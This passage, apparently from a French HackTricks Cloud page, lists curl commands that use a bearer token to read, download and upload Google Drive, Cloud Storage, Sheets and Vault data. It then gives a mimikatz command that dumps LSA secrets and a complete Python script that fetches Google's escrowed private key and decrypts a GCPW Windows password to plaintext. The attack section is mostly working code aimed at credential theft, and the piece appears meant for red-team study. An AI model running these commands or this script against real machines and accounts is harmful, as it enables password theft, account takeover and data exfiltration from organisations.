"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** est un module complémentaire pour Google Workspace qui fournit des outils pour la conservation des données, la recherche et l'exportation des données de votre organisation stockées dans les services Google Workspace tels que Gmail, Drive, Chat, et plus encore.

* Un **Matter** dans Google Workspace Vault est un **conteneur** qui organise et regroupe toutes les informations liées à un cas, une enquête ou une affaire légale spécifique. Il sert de hub central pour gérer les **Holds**, **Searches** et **Exports** concernant ce problème particulier.
* Un **Hold** dans Google Workspace Vault est une **action de préservation** appliquée à des utilisateurs ou groupes spécifiques pour **empêcher la suppression ou la modification** de leurs données au sein des services Google Workspace. Les Holds garantissent que les informations pertinentes restent intactes et non modifiées pendant la durée d'une affaire légale ou d'une enquête.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
Plus [d'API endpoints dans la documentation](https://developers.google.com/vault/reference/rest).

</details>

## GCPW - Récupération du mot de passe en clair

Pour abuser de GCPW afin de récupérer le mot de passe en clair, il est possible de dumper le mot de passe chiffré depuis **LSASS** en utilisant **mimikatz** :
```bash
mimikatz_trunk\x64\mimikatz.exe token::elevate lsadump::secrets exit
```
Ensuite, recherchez le secret comme `Chrome-GCPW-<sid>` comme dans l'image :

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-6044191430395675441-x.jpg" alt=""><figcaption></figcaption></figure>

Ensuite, avec un **jeton d'accès** avec la portée `https://www.google.com/accounts/OAuthLogin`, il est possible de demander la clé privée pour déchiffrer le mot de passe :

<details>

<summary>Script pour obtenir le mot de passe en texte clair donné le jeton d'accès, le mot de passe chiffré et l'identifiant de ressource</summary>
```python
import requests
from base64 import b64decode
from Crypto.Cipher import AES, PKCS1_OAEP
from Crypto.PublicKey import RSA

def get_decryption_key(access_token, resource_id):
try:
# Request to get the private key
response = requests.get(
f"https://devicepasswordescrowforwindows-pa.googleapis.com/v1/getprivatekey/{resource_id}",
headers={
"Authorization": f"Bearer {access_token}"
}
)

# Check if the response is successful
if response.status_code == 200:
private_key = response.json()["base64PrivateKey"]
# Properly format the RSA private key
private_key = f"-----BEGIN RSA PRIVATE KEY-----\n{private_key.strip()}\n-----END RSA PRIVATE KEY-----"
return private_key
else:
raise ValueError(f"Failed to retrieve private key: {response.text}")

except requests.RequestException as e:
print(f"Error occurred while requesting the private key: {e}")
return None

def decrypt_password(access_token, lsa_secret):
try:
# Obtain the private key using the resource_id
resource_id = lsa_secret["resource_id"]
encrypted_data = b64decode(lsa_secret["encrypted_password"])

private_key_pem = get_decryption_key(access_token, resource_id)
print("Found private key:")
print(private_key_pem)

if private_key_pem is None:
raise ValueError("Unable to retrieve the private key.")

# Load the RSA private key
rsa_key = RSA.import_key(private_key_pem)
key_size = int(rsa_key.size_in_bits() / 8)

# Decrypt the encrypted data
cipher_rsa = PKCS1_OAEP.new(rsa_key)
session_key = cipher_rsa.decrypt(encrypted_data[:key_size])

# Extract the session key and other data from decrypted payload
session_header = session_key[:32]
session_nonce = session_key[32:]
mac = encrypted_data[-16:]

# Decrypt the AES GCM data
aes_cipher = AES.new(session_header, AES.MODE_GCM, nonce=session_nonce)
decrypted_password = aes_cipher.decrypt_and_verify(encrypted_data[key_size:-16], mac)

print("Decrypted Password:", decrypted_password.decode("utf-8"))

except Exception as e:
print(f"Error occurred during decryption: {e}")

# CHANGE THIS INPUT DATA!
access_token = "<acces_token>"
lsa_secret = {
"encrypted_password": "<encrypted-password>",
"resource_id": "<resource-id>"
}

decrypt_password(access_token, lsa_secret)
```
</details>

Il est possible de trouver les composants clés de cela dans le code source de Chromium :

* Domaine API : [https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code](https://github.com/search?q=repo%3Achromium%2Fchromium%20%22devicepasswordescrowforwindows-pa%22\&type=code)
* Point de terminaison API : [https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70](https://github.com/chromium/chromium/blob/21ab65accce03fd01050a096f536ca14c6040454/chrome/credential\_provider/gaiacp/password\_recovery\_manager.cc#L70)

## Références

* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
